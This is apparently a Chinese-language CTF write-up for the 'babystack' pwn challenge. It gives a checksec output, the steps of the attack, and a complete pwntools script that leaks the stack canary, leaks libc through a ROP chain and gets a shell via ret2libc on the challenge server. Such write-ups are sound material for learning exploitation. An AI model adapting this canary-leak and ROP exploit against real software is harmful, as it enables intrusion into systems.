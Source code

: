 ```yaml
---
title: 'others_babystack'
date: 2024-01-27 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护

![image-20240127172338486](../assets/img/old_imgs/image-20240127172338486.png)

1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串

